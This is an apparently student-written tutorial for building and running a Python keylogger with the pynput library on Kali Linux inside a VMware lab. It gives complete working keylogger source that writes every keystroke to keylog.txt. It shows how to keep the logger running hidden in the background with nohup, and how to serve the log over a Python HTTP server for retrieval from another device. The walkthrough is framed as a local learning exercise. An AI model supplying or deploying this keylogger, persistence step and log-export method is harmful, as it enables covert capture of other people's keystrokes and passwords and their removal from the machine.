 Project Title: Key logger using Python on Kali Linux

Project Goal
To build and run a Python-based keylogger on Kali Linux inside a VMware environment, log all keystrokes, and export the data via HTTP server.
Step-1 Open VMware Workstation, start Kali Linux, and update the system (optional but recommended for best performance and security).
Comment - (sudo apt update && sudo apt upgrade -y)
sudo – Runs the command as a superuser (with admin rights).
apt – The package manager used in Kali Linux and other Debian-based systems.
update – Refreshes the list of available packages and their versions from the internet.
&& – Runs the next command only if the previous one is successful.
upgrade – Installs the latest versions of the packages already on your system.
-y – Automatically says "yes" to all prompts during the upgrade.

STEP 2 Install the pynput library, which is used to monitor and record keystrokes in Python.
Install pynput - (pip3 install pynput)
pynput is a Python library used to control and monitor input devices like the keyboard and mouse. It's commonly used in projects like keyloggers, automation scripts, or accessibility tools.

To check if pynput is installed on your Kali Linux system.
open the terminal and type (python3) to enter the Python shell. 
Once inside, type (import pynput). If no error appears, it means the library is already installed.
You can then exit the Python shell by typing (exit()).

However, if you see an error saying that the module is not found, it means pynput is not installed. 

In that case, install the library by running the command (pip3 install pynput) in the terminal. 
If you receive a "command not found" error for pip3, it means pip is not installed on your system. 
To fix this, install pip by running (sudo apt install python3-pip -y).

pip stands for "Pip Installs Packages",  Python 3 (most common in Kali)

To check if pip3 is installed on your system.
Run the command (pip3 --version) in the terminal. If pip is installed, it will display the installed version.
However, if pip is not installed, you will see an error message saying: "Command 'pip3' not found".
In that case, you can install it by running the command - (sudo apt install python3-pip -y).
Pip - It is the package manager for Python that allows you to install libraries from the internet, uninstall ones you no longer need, upgrade existing libraries to their latest versions, and handle dependencies automatically, making Python development easier and more organized.

Step-3 Open your Kali Linux home directory, create a file called keylogger.py using the Nano editor, and paste the code inside.

from pynput import keyboard

def on_press(key):
    try:
        with open("keylog.txt", "a") as f:
            f.write(f"{key.char}\n")
    except AttributeError:
        with open("keylog.txt", "a") as f:
            f.write(f"{key}\n")

with keyboard.Listener(on_press=on_press) as listener:
    listener.join()

Press Ctrl + O → Enter (to save)
Press Ctrl + X (to exit)

Step-4 Run the script in the terminal using the command. It will now log all keystrokes to keylog.txt in the same folder.
Commant - (python3 keylogger.py)

Step-5 Open another terminal or any application and type some text for example, in a text editor or directly in the terminal. Once you've typed some input, go back to the terminal where you initially ran the script. To stop the script, press Ctrl + C.

Check the log file: (cat keylog.txt) You’ll see the logged keystrokes.

Step-6 To run the script without keeping the terminal open, use the following command
Commant - (nohup python3 keylogger.py &)
nohup → keeps the program running even if you close the terminal. (Stands for no hangup).
python3 keylogger.py → runs your script with Python 3.
& → runs it in the background so you can still use the terminal.
This will keep the script running in the background, even after the terminal is closed.

Step-7 File Transfer Using Python HTTP Server
What is Python HTTP Server?
Python has a built-in feature that allows you to turn any folder into a web server. That means you can,Share files from that folder over the network and Download them using a web browser from another device. This method is useful when you want to download files (like your keylogger log file) from your Kali Linux VM to another device (like your Windows host machine) without USB or SSH.

If you are working in a local lab environment, you can share the file via HTTP.

Command-(python3 -m http.server 8080). 
python3 → runs Python version 3.
-m http.server → tells Python to start a small built-in web server.
8080 → the port number where the server will run (you can change it).

“Start a simple web server on port 8080 using Python.”
You can then open your browser and go to another device on the network -> Open browser -> Go to: http://<kali_ip>:8080/keylog.txt

(You can get your Kali IP using ifconfig or ip a)

Step-8 To find running process:
Use this comment (ps aux | grep keylogger.py)
ps aux “Please list all the programs that are currently running on the computer.”
ps = process status
a = show processes for all users
u = show the user who started the process and extra details
x = include programs not started from a terminal
This alone will give you a big list of everything running.
| (pipe symbol)
The | takes the output from the first command (ps aux) and sends it directly into another command.
Think of it like a conveyor belt: whatever comes out of the first machine goes into the second machine.
grep keylogger.py
grep is a search tool.
Here, it’s searching for the text keylogger.py in the big list of programs.
It will only show the lines that match this text.
Look for something like: kali     94403  ... python3 keylogger.py
To stop this running process comment - (kill 94403) (Replace 94403 with whatever PID your system shows).
